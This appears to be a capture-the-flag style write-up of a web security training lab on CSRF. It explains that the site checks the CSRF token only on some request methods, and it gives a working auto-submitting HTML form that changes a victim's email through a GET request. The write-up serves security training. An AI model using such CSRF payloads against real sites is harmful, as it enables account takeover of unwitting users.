


# CSRF where token validation depends on request method
# Objective
This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.\
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.\
You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
Even though the website have `csrf` token it might not handle correctly different types of requests.
||
|:--:| 
| *Test of change email functionality - CSRF token is preset* |


## CSRF Exploit
In order to solve the lab the following steps must be completed:
- Craft correct payload (below) - user `GET` method in request
- `Store` it
- (Optional) Test it on yourselft - `View exploit`
- `Deliver exploit to victim`

For some reason attacker and user wiener have to have different emails addresses.

```
<form method="GET" action="https://0a9a00070388d30d8685977d000f0006.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attackeremail@email.com">
</form>

<script>
        document.forms[0].submit();
</script>
```


